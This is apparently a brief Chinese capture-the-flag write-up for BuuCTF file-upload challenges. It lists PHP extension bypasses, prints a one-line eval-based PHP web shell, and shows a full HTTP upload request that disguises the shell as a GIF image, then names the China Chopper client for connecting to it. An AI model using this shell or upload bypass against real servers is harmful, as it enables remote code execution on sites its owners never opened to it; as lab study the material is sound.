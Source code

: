 ```yaml
---
title: BuuCTF web
tags: []
id: '483'
categories:
  - - CTF
    - WEB
date: 2020-04-15 23:59:27
---
```


## \[极客大挑战 2019\]Upload/\[ACTF2020 新生赛\]Upload

格式绕过

php，php3，php4，php5，phtml，pht

<?绕过

```
<script language='php'>phpinfo();eval($_POST['v']);</script>
```

Content-Type: image/png

POST /upload\_file.php HTTP/1.1
Host: 19b6558c-a515-415e-a219-3c3175b62eed.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,\*/\*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------2861896706387660493773565516
Content-Length: 399
Origin: http://19b6558c-a515-415e-a219-3c3175b62eed.node3.buuoj.cn
Connection: close
Referer: http://19b6558c-a515-415e-a219-3c3175b62eed.node3.buuoj.cn/
Upgrade-Insecure-Requests: 1

-----------------------------2861896706387660493773565516
Content-Disposition: form-data; name="file"; filename="1.phtml"
Content-Type: image/png

GIF98a?
<script language='php'>phpinfo();eval($\_POST\['v'\]);</script>
-----------------------------2861896706387660493773565516
Content-Disposition: form-data; name="submit"

提交
-----------------------------2861896706387660493773565516--

然后用菜刀就可以了